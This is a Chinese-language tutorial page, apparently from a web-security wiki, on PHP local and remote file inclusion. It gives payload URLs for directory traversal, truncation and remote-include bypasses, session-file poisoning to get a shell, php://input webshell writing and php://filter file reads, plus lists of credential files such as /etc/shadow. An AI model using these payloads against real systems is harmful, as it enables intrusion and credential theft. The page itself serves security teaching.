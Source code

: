 文件包含
========================================

基础
----------------------------------------
文件包含函数加载的参数没有经过过滤或者严格的定义，可以被用户控制，包含其他恶意文件，导致了执行了非预期的代码。

::

	<?php
	    $filename  = $_GET['filename'];
	    include($filename);
	?>

例如：
$_GET['filename']参数开发者没有经过严格的过滤，直接带入了include的函数，攻击者可以修改$_GET['filename']的值，执行非预期的操作。

考虑常用的几种包含方式为:

- 同目录包含 ``file=.htaccess``
- 目录遍历 ``?file=../../../../../../../../../var/lib/locate.db``
- 日志注入 ``?file=../../../../../../../../../var/log/apache/error.log``
- 利用 ``/proc/self/environ``

其中日志可以使用SSH日志或者Web日志等多种日志来源测试

触发Sink
----------------------------------------
- PHP文件包含函数有以下四种
    - include
        - 在包含过程中出错会报错，不影响执行后续语句
    - include_once
        - 仅包含一次
    - require
        - 在包含过程中出错，就会直接退出，不执行后续语句
    - require_once

本地文件包含漏洞
----------------------------------------

- 无限制本地文件包含漏洞
- session文件包含漏洞
	利用条件：session的存储位置可以获取。(phpinfo()或猜测,如linux下默认存储在/var/lib/php/session目录下)
	示例：
	::

		<?php
		    session_start();
		    $ctfs=$_GET['ctfs'];
		    $_SESSION["username"]=$ctfs;
		?>

	漏洞分析:
	::

		此php会将获取到的GET型ctfs变量的值存入到session中。
		当访问http://www.ctfs-wiki/session.php?ctfs=ctfs 后，会在/var/lib/php/session
		目录下存储session的值。
		session的文件名为sess_+sessionid，sessionid可以通过开发者模式获取。

	|fileincludesessionid|

	所以session的文件名为sess_akp79gfiedh13ho11i6f3sm6s6。
	服务器的/var/lib/php/session目录下此文件内容为：
	::

		username|s:4:"ctfs";
		[root@c21336db44d2 session]# cat sess_akp79gfiedh13ho11i6f3sm6s6
		username|s:4:"ctfs"

	漏洞利用:

	::

		通过上面的分析，可以知道ctfs传入的值会存储到session文件中，如果存在本地文件包含漏洞，就可以通过
		ctfs写入恶意代码到session文件中，然后通过文件包含漏洞执行此恶意代码getshell。
		当访问http://www.ctfs-wiki/session.php?ctfs=<?php phpinfo();?>后，会在/var/lib/php/session目录下
		存储session的值。

- 有限制本地文件包含漏洞绕过
	- %00截断
		测试代码：
		::

			<?php
			    $filename  = $_GET['filename'];
			    include($filename . ".html");
			?>

          ``http://www.ctfs-wiki.com/FI/FI.php?filename=../../../../../../../boot.ini%00`` 

	- 路径长度截断
		条件：windows OS，点号需要长于256；linux OS 长于4096
		::

			Windows下目录最大长度为256字节，超出的部分会被丢弃；
			Linux下目录最大长度为4096字节，超出的部分会被丢弃。

		测试代码：
		::

			<?php
			    $filename  = $_GET['filename'];
			    include($filename . ".html");
			?>

		EXP:
		::

			http://www.ctfs-wiki.com/FI/FI.php?filename=test.txt/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././

	- 点号截断
		条件：windows OS，点号需要长于256

		测试代码：
		::

			<?php
			    $filename  = $_GET['filename'];
			    include($filename . ".html");
			?>

		EXP:
		::

			http://www.ctfs-wiki.com/FI/FI.php?filename=test.txt.................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................



远程文件包含漏洞
----------------------------------------
PHP的配置文件allow_url_fopen和allow_url_include设置为ON，include/require等包含函数可以加载远程文件，
如果远程文件没经过严格的过滤，导致了执行恶意文件的代码，这就是远程文件包含漏洞。

- 无限制远程文件包含漏洞
- 有限制远程文件包含漏洞绕过
	- 问号绕过
		 ``<?php include($_GET['filename'] . ".html"); ?>`` 代码中多添加了html后缀，导致远程包含的文件也会多一个html后缀，问号绕过如下：
		 ``http://www.ctfs-wiki.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt?`` 
	- #号绕过
		 ``http://www.ctfs-wiki.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt%23`` 
	- 空格绕过
		 ``http://www.ctfs-wiki.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt%20`` 

url编码绕过
----------------------------------------
如果WAF中是字符串匹配，可以使用url多次编码的方式可以绕过。

伪协议绕过
----------------------------------------
- PHP input: 把payload放在POST参数中作为包含的文件，要求 ``allow_url_include=On`` ，payload为 ``?file=php://input`` 的形式
	- 命令执行
		|fileincludecommand|
	- 写入webshell
		条件：php配置文件中需同时开启 allow_url_fopen 和 allow_url_include（PHP < 5.3.0）,就可以造成任意代码执行，在这可以理解成远程文件包含漏洞（RFI），即POST过去PHP代码，即可执行。如果POST的数据是执行写入一句话木马的PHP代码，就会在当前目录下写入一个木马。
		|fileincludemuma|
- Base64伪协议读取文件
	payload为 ``?file=php://filter/convert.base64-encode/resource=index.php`` 
- data伪协议读取文件内容
	payload为 ``?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=`` 的形式，要求 ``allow_url_include=On``

常见的敏感信息路径：
----------------------------------------
Windows系统

::

	c:\boot.ini // 查看系统版本
	c:\windows\system32\inetsrv\MetaBase.xml // IIS配置文件
	c:\windows\repair\sam // 存储Windows系统初次安装的密码
	c:\ProgramFiles\mysql\my.ini // MySQL配置
	c:\ProgramFiles\mysql\data\mysql\user.MYD // MySQL root密码
	c:\windows\php.ini // php 配置信息

Linux/Unix系统

::

	/etc/passwd // 账户信息
	/etc/shadow // 账户密码文件
	/usr/local/app/apache2/conf/httpd.conf // Apache2默认配置文件
	/usr/local/app/apache2/conf/extra/httpd-vhost.conf // 虚拟网站配置
	/usr/local/app/php5/lib/php.ini // PHP相关配置
	/etc/httpd/conf/httpd.conf // Apache配置文件
	/etc/my.conf // mysql 配置文件



参考链接
----------------------------------------
- `Exploit with PHP Protocols <https://www.cdxy.me/?p=752>`_
- `lfi cheat sheet <https://highon.coffee/blog/lfi-cheat-sheet/>`_

.. |fileincludesessionid| image:: ../images/fileincludesessionid.jpg
.. |fileincludemuma| image:: ../images/fileincludemuma.jpg
.. |fileincludecommand| image:: ../images/fileincludecommand.jpg